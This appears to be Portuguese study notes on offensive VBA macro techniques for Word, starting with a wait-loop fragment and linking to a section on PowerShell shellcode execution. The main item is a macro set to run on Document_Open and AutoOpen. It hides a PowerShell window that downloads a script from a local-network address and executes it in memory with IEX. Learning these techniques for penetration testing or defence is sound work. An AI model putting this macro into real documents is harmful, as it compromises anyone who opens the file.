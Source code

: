 ```vbnet
 ' Declara a variável "tempo_atual" como o tipo de data
 Dim tempo_atual As Date
 ' Salva o tempo atual na variável
 tempo_atual = Now
 Do
 ' Segundo o site https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/doevents-function
 ' The DoEvents function returns an Integer representing the number of open forms in stand-alone versions of Visual Basic, such as Visual Basic, Professional Edition. DoEvents returns zero in all other applications.
 ' DoEvents passes control to the operating system. Control is returned after the operating system has finished processing the events in its queue and all keys in the SendKeys queue have been sent.
  DoEvents
 ' Realiza um loop até que o tempo atual seja maior que a variável "tempo_atual" acrescidos de "espera" em segundos
 ' Agora >= tempo_atual + espera
 Loop Until Now >= DateAdd("s", espera, tempo_atual)
End Sub
```
* Utilização do Word e PowerShell com API do Windows
* Arquivo utilizado presente em [PowerShell com API](../PowerShell/resumo.md#executando-shellcode)
```vbnet
' Script para chamar um arquivo em PowerShell, utilizar a função DownloadString que carrega o conteúdo do arquivo na memória

Sub MyMacro()
    Dim comando As String
    comando = "powershell (New-Object 
System.Net.WebClient).DownloadString('http://192.168.0.125:1235/run.ps1') | IEX"
    Shell comando, vbHide
End Sub

Sub Document_Open()
    MyMacro 
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

# Comunicação com API do Windows

>Declarar os argumentos e seus tipos de dados. Esta parte pode ser desafiadora porque os tipos de dados que o Windows usa não correspondem aos tipos de dados do Visual Studio. O Visual Basic faz muito do trabalho para você convertendo argumentos em tipos de dados compatíveis, um processo chamado empacotamento. Você pode controlar explicitamente como os argumentos são empacotados usando o atributo MarshalAsAttribute definido no namespace System.Runtime.InteropServices.
>
> Referência: https://learn.microsoft.com/en-us/dotnet/visual-basic/programming-guide/com-interop/walkthrough-calling-windows-apis

